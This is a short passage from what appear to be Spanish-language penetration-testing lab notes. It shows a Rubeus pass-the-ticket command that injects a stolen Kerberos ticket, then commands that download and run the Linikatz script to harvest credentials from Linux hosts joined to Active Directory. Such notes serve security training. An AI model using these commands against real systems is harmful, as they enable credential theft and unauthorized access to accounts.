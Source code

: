 ```bash
C:\\htb> C:\\tools\\Rubeus.exe ptt /ticket:c:\\tools\\julio.kirbi
```

##### Linikatz

[Linikatz](https://github.com/CiscoCXSecurity/linikatz)  es una herramienta creada para explotar credenciales en máquinas Linux que están integradas en un AD

```bash
wget <https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh>
/opt/linikatz.sh
#una vez ejecutado nos muestra información automáticamente
```